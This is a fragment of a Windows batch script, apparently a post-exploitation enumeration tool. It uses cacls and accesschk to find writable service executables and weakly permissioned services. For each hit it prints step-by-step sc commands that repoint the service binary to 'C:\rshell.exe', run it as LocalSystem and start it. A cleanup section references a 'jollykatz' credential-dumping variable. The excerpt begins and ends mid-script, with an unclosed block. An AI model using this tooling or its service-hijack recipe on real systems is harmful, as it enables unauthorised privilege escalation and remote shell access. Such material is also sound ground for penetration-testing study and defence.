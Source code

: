 ```batch
for /f "tokens=*" %%a in (serviceexes.txt) do (cacls "%%a"|findstr /I "Everyone"|findstr /I "W F") && (echo === !!! Write access to service executable: %%a !!! ===) || (call)

echo.Files and folder with Read-Write access
echo.---------------------------------------
dir accesschk.exe /a/s/b 1>2>NUL
IF %ERRORLEVEL% == 0 (
	echo === NOTE: accesschk.exe not found, skipping accesschk file permissions checks ===
	goto:eof
)

	accesschk.exe /accepteula 1>2>NUL
	
	accesschk.exe -uwqs "Everyone" c:\*.* | findstr /VI "\.*system32\\Setup*. \.*system32\\spool\\PRINTERS*. \.*Registration\\CRMLog*. \.*Debug\\UserMode*. \.*WINDOWS\\Tasks*. \.*WINDOWS\\Temp*. \.*Documents.And.Settings*. \.*RECYCLER*. \.*System.Volume.Information*."
	accesschk.exe -uwqs "Users" c:\*.* | findstr /VI "\.*system32\\Setup*. \.*system32\\spool\\PRINTERS*. \.*Registration\\CRMLog*. \.*Debug\\UserMode*. \.*WINDOWS\\Tasks*. \.*WINDOWS\\Temp*. \.*Documents.And.Settings*. \.*RECYCLER*. \.*System.Volume.Information*."
	accesschk.exe -uwqs "Authenticated Users" c:\*.*  | findstr /VI \.*System.Volume.Information*. | findstr /VI \.*Documents.And.Settings*.
	
	echo.Searching for weak service permissions
	echo.--------------------------------------
	accesschk.exe -uwcqv "Authenticated Users" * | Find "RW " 1> NUL
	if %ERRORLEVEL% == 0 (
		echo.**** !!! VULNERABLE SERVICES FOUND - Authenticated Users!!! ****
		accesschk.exe -uwcqv "Authenticated Users" *
		echo.****************************************************************
		echo.
	)
	accesschk.exe /accepteula 1>2>NUL
	accesschk.exe -uwcqv "Users" * | Find "RW " 1> NUL
	if %ERRORLEVEL% == 0 (
		echo.**** !!! VULNERABLE SERVICES FOUND - All Users !!! ****
		accesschk.exe -uwcqv "Users" *
		echo.*******************************************************
		echo.To plant binary in service use:
		echo.sc config [service_name] binpath= "C:\rshell.exe"
		echo.sc config [service_name] obj= ".\LocalSystem" password= ""
		echo.sc qc [service_name] (to verify!)
		echo.net start [service_name]
		echo.*******************************************************
	)
	accesschk.exe /accepteula 1>2>NUL
	accesschk.exe -uwcqv "Everyone" * | Find "RW " 1> NUL
	if %ERRORLEVEL% == 0 (
		echo.**** !!! VULNERABLE SERVICES FOUND - Everyone !!! ****
		accesschk.exe -uwcqv "Everyone" *
		echo.*******************************************************
		echo.To plant binary in service use:
		echo.sc config [service_name] binpath= "C:\rshell.exe"
		echo.sc config [service_name] obj= ".\LocalSystem" password= ""
		echo.sc qc [service_name] (to verify!)
		echo.net start [service_name]
		echo.*******************************************************
goto:eof

:cleanup
set jollykatz=
set accesschk=
set OSbit=
set whoami=
```